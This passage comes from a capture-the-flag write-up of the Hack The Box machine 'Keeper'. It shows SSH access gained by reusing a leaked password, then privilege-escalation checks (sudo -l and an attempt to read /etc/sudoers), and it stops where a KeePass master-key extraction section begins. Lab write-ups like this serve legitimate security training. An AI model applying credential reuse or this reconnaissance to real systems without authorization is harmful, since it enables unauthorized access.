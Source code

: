 ### Credentials reuse (User shell)

Following the principle of `Credential reusing`, we can assume that a user whose password is Welcome2023 may reuse that password for other services or even for a system user.

This information toguether with the port 22, discovered while port scanning, made us try the credentials `lnorgaard:Welcome2023!` with the command:

```bash
┌──(k0rrib4n㉿k0rrib4n)-[~/HTB/Machines/Completed/Keeper]
└─$ ssh lnorgaard@10.10.11.227
lnorgaard@10.10.11.227's password: #hidden: Welcome2023!
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-78-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

You have mail.
Last login: Sat Feb 17 11:15:21 2024 from 10.10.14.46
lnorgaard@keeper:~$ whoami
lnorgaard
lnorgaard@keeper:~$ ls
RT30000.zip  user.txt
```

## Privilege escalation

The first things we must try when escalating privileges are:

```bash
lnorgaard@keeper:~$ sudo -l
[sudo] password for lnorgaard:
Sorry, user lnorgaard may not run sudo on keeper.
lnorgaard@keeper:~$ cat /etc/sudoers
cat: /etc/sudoers: Permission denied
```

### Keepass masterkey extraction

When we connected to the target machine as the user `lnorgaard` we found the file `RT30000.zip`, which matches the only ticket open at the RT web with the ID 30000: